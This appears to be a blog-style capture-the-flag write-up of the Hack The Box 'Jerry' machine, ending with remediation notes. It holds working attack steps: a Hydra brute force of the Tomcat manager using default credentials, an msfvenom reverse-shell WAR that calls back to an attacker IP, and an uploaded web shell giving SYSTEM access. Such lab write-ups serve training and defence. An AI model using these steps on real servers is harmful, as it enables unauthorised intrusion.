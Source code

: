 +++
draft = true
date = 2020-06-25T16:04:02+01:00
title = "Jerry"
description = ""
slug = ""
tags = []
categories = []
externalLink = ""
series = []
weight = 6
+++


# Machine info

- OS : Windows
- Difficulty : Easy
- Points : 20
- IP : 10.10.10.95


# Mind Map
![Jerry_MindMap](/images/htb/jerry_mindmap.png)


# Reconnaisance

I start with the usual initial scan to check for useful open ports:

{{< highlight html >}}
Nmap scan report for 10.10.10.95
Host is up (0.078s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
{{< /highlight >}}

**Port 8080** appears to be the only one open and running a web server.

# Enumeration

Visiting the resource on `10.10.10.95:8080` I am presented with an Apache Tomcat/7.0.88 Control Panel.

![Jerry_Tomcat](/images/htb/jerry_tomcat.png)

***What is Apache Tomcat?***

>Apache Tomcat (sometimes simply "Tomcat") is an open-source implementation of the Java Servlet, JavaServer Pages, Java Expression Language and WebSocket technologies.[3] Tomcat provides a "pure Java" HTTP web server environment in which Java code can run.

>Tomcat is developed and maintained by an open community of developers under the auspices of the Apache Software Foundation, released under the Apache License 2.0 license.

Entering the control panel I could be able to upload a custom malicious application to the server acting as a reverse shell. I know that in the case of Tomcat I will need a **.war** file.

>In software engineering, a WAR file (Web Application Resource[1] or Web application Archive[2]) is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages (HTML and related files) and other resources that together constitute a web application.

# Exploitation

So let's try to find a way in to Manager App! In order to bruteforce the authentication, I decide to go with Hydra:

{{< highlight html >}}
hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
{{< /highlight >}}

Where:
- `-C` is the file containing login and passwords to attempt, in the format "login:pass"
- `http-get` is the service I want to crack

Hydra is able to find out the credentials!

{{< highlight html >}}
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 1 valid password found
{{< /highlight >}}

I can now access the control panel!


![Jerry_Tomcat](/images/htb/jerry_tomcat_manageapp.png)

**Note**: The web server is running a 64bit version of Windows Server 2012 R2.

![Jerry_Tomcat](/images/htb/jerry_server_info.png)

I have two options:
1. create a malicious `.war` file containing a reverse shell to my machine using `msfvenom`
2. upload an existing one located under `/usr/share/laudanum/jsp/cmd.war`

In case of option **1**, I can create a reverse shell with `msfvenom` like:

{{< highlight html >}}
msfvenom -p java/jsp_shell_reverse_tcp  LHOST=10.10.14.19 LPORT=4456 -f war > rev_shell.war
Payload size: 1088 bytes
{{< /highlight >}}

I go with option **2**, and after uploading the cmd.war file and visiting `10.10.10.96:8080/cmd/cmd.jsp` I am presented with an interactive reverse shell!

![Jerry_Shell](/images/htb/jerry_shell.png)

Entering the `whoami` command, I can see I'm already **nt authority\system**, so there is no need to proceed with privilege escalation!


## Lessons learned and remediations

- There is an exposed port running Apache Tomcat with default credentials. The administrator should have used
a password that is difficult to crack.
- Tomcat should have been running as a user account and not with SYSTEM privilege.
